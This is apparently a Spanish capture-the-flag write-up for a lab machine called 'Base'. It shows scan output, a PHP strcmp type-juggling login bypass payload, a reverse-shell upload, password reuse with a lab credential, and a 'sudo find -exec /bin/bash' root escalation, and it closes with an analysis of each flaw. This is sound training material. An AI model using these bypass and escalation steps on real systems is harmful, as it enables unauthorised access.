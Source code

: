 # Base
## Initial Scan
```
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 f6:5c:9b:38:ec:a7:5c:79:1c:1f:18:1c:52:46:f7:0b (RSA)
|   256 65:0c:f7:db:42:03:46:07:f2:12:89:fe:11:20:2c:53 (ECDSA)
|_  256 b8:65:cd:3f:34:d8:02:6a:e3:18:23:3e:77:dd:87:40 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
```
## Enum
### HTTP
#### Gobuster 
```
/.htaccess (Status: 403)
/.htpasswd (Status: 403)
/_uploaded (Status: 301)
/login (Status: 301)
/server-status (Status: 403)
/static (Status: 301)
```
/login en vez de redirigirnos a login.php o mostrar el login aquí directamente nos lista la carpeta /login donde hay un login.php y un archivo llamado login.php.swp
```
if (strcmp($password, $_POST['password']) == 0) {
  if (strcmp($username , $_POST['username']) == 0) {
  require('config.php');
if (!empty($_POST['username']) && !empty($_POST['password'])) {
  session_start();   
```
Parece un backup del script de login de la pagina, podemos ver que la comparación es vulnerable a type juglling dado que se hace con el operador '==' en lugar del '==='

Bien, para abusar de esta comparacion lo que haremos sera castear los imputs a vectores generando un error que se interpretara como 0  la hora de hacer la compatación, de manera que la request pasara de ser :
```
username=admin&password=admin
```
a ser:
```
username[]=admin&password[]=admin
```
Con esto habriamos entrado

## Exploit
Nada mas entrar tenemos un servicio llamado secret file upload, en este podemos subir archivos php sin ningun problema, subimos la reverse shell de pentest monkey y ya tendriamos un RCE como www-data

## Privesc
Viendo usuarios con acceso via bash tenemos 2:
```
root:x:0:0:root:/root:/bin/bash
john:x:1000:1000:John:/home/john:/bin/bash
```
Intentar escalar lateralmente hacia john parece buena idea.

### John

Miramos la contraseña usada realmente para el servicio de login de la web y descubrimos que es la siguiente combinación
```
$username = "admin";
$password = "thisisagoodpassword"
```
Dado que tenmos 2 usuarios no estaria de mas probarla para ambos, con suerte conseguiremos acceder a alaguno debido a reutilizicación de contraseña, afortunadamente para nosotros la contraseña se puede usar para logeranos como john
```
(Aquí es buen momento para dejar la reverse shell y abrir una sesion via ssh como john para tener una shell completamente operativa)
```
### Root
```
User john may run the following commands on base:
    (root : root) /usr/bin/find
```
Con esta configuracion es bien sencillo escalar privilegios
```
john@base:~$ sudo /usr/bin/find . -exec /bin/bash \;
root@base:~#
```

# Analisís de la intrusión
### Broken Auth: PHP Strcmp vulnerable call
https://hydrasky.com/network-security/php-string-comparison-vulnerabilities/
### Unrestricted file upload
El servidor web nos permite subir archivos sin verificar nada al respecto una vez estamos autentificados, esto nos lleva a poder ejecutar codigo php arbitario en el lado del servidor
### Plaintext password
La contraseña, en si es segura y si se hubiera o hubiese hasheado probablemente no la habriamos conseguido crackear en un tiempo corto ya que ni se encuentra en rockyou.txt ni crackstation la tiene almacenada, pero al guardarse en texto plano se nos facilito la tarea y conseguimos logearnos como john
### Password reutilization
Si bien la contraseña era medianamente robusta, la reutilización de la misma en el servicio web y el usuario del sistema nos permitio escalar privilegios lateralmente hasta john
### Privileged find execution
La ejecución privilegiada del comando find por parte de john no permite escalar privilegios de manera ascendente logrando así finalmente ser root en el sistema 
